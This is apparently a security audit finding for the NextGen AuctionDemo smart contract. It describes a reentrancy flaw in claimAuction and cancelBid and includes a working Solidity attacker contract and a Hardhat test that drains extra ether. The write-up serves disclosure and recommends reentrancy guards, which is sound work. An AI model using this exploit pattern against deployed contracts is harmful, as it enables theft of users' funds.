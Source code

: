 ## H-01 AuctionDemo::claimAuction reentrancy issue
The function [claimAuction](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L104) and [cancelBid](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L124) is not checking reentrancy and is not following the Checks Effects Interactions pattern, allowing one attacker contract to receive a "not-winner" bid amount and cancelling at the same transaction. 
This is possible because the function claimAuction is checking `block.timestamp >= minter.getAuctionEndTime(_tokenid)` and cancelBid is checking `require(block.timestamp <= minter.getAuctionEndTime(_tokenid), "Auction ended")`, allowing an attacker contract to call cancelBid function when receive the ethers from a 'not-winner' bid [here](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L116).

To exploit this vulnerability successfully, an attacker must ensure that block.timestamp is equal to minter.getAuctionEndTime(_tokenid). This can be achieved by manipulating block.timestamp, which may be possible if the validator has control over it. Even if the attacker cannot manipulate block.timestamp, they can repeatedly bid in an auction and wait for the winner or admin to execute a transaction with the same timestamp. This attack has a low cost since the attacker can receive multiple bids. Also, the attacker contract can be the auction winner too.

## Impact
The attacker contract can steal funds from the AuctionDemo contract by receiving double payments for each bid (once from the "not-winner" transfer in claimAuction and once from the cancelBid function).

## Proof of Concept
First, create one attacker contract: (Attacker.sol)
```
pragma solidity ^0.8.19;

import './AuctionDemo.sol';
contract attacker {
     
    address public auctionDemoContract;
    bool attack;

    constructor(address _auctionDemoContract)
    {
        auctionDemoContract = _auctionDemoContract;
    }

    function participateToAuction(uint256 _tokenid) public payable {
        auctionDemo(auctionDemoContract).participateToAuction{ value: msg.value }(_tokenid);
    }

    function claimAuction(uint256 _tokenid) public {
        auctionDemo(auctionDemoContract).claimAuction(_tokenid); // if you are the highest bidder
    }
    receive() external payable {
        if (!attack) {
            attack = true;
            auctionDemo(auctionDemoContract).cancelBid(30000000002, 0); // just once this time, but you can put it on a looping.
        }
    }
}
```

Add this test just after line 315 [hardhat/test/nextGen.test.js#L350](https://github.com/code-423n4/2023-10-nextgen/blob/main/hardhat/test/nextGen.test.js#L350)
```
    it("#auction", async function () {
      await contracts.hhMinter.mintAndAuction( // create an Auction
        signers.addr1.address, // recipient
        '{"tdh": "100"}', // _tokenData
        0, // _saltfun_o
        3, // _collectionID
        1799880280, // _auctionEndTime
      )
      const auctionDemo = await ethers.getContractFactory("auctionDemo")

      const hhAuctionDemo = await auctionDemo.deploy( // deploy auctionDemo contract
        await contracts.hhMinter.getAddress(),
        await contracts.hhCore.getAddress(),
        await contracts.hhAdmin.getAddress(),
      )

      const attackerContract = await ethers.getContractFactory("attacker")
      const hhAttacker = await attackerContract.deploy( // deploy attacker Contract
        await hhAuctionDemo.getAddress(),
      )

      await contracts.hhCore.connect(signers.addr1).approve(hhAuctionDemo.getAddress(), 30000000002); //approve token transfer

      await ethers.provider.send('evm_setNextBlockTimestamp', [1799880256]); // set block timestamp
      const bidAttackerAmount = 1000000000
      await hhAttacker.connect(signers.addr2).participateToAuction( // as attacker (index = 0)
        30000000002, //tokenId
        { value: bidAttackerAmount } // price
      );
      await hhAuctionDemo.connect(signers.addr2).participateToAuction( // as normal user
        30000000002, //tokenId
        { value: 1000000001 } // price
      );
      await hhAuctionDemo.connect(signers.addr2).participateToAuction( // as normal user
        30000000002, //tokenId
        { value: 1000000002 } // price
      );
      
      const balanceBefore = await ethers.provider.getBalance(
        hhAttacker.getAddress()
      )
      expect(parseInt(balanceBefore)).equal(0); // expect 0

      await ethers.provider.send('evm_setNextBlockTimestamp', [1799880280]); // set block timestamp to = _auctionEndTime
      await hhAuctionDemo.connect(signers.addr2).claimAuction(30000000002); // calling claimAuction as winner (normal user)
      const balanceAfter = await ethers.provider.getBalance(
        hhAttacker.getAddress()
      )
      expect(parseInt(balanceAfter)).equal(bidAttackerAmount); // expect equal bid value

    })

```
## Tools Used
hardhat, VS Code

## Recommended Mitigation Steps:
Add Reentrancy Guards to all function that transfers: ERC721 and native Ether.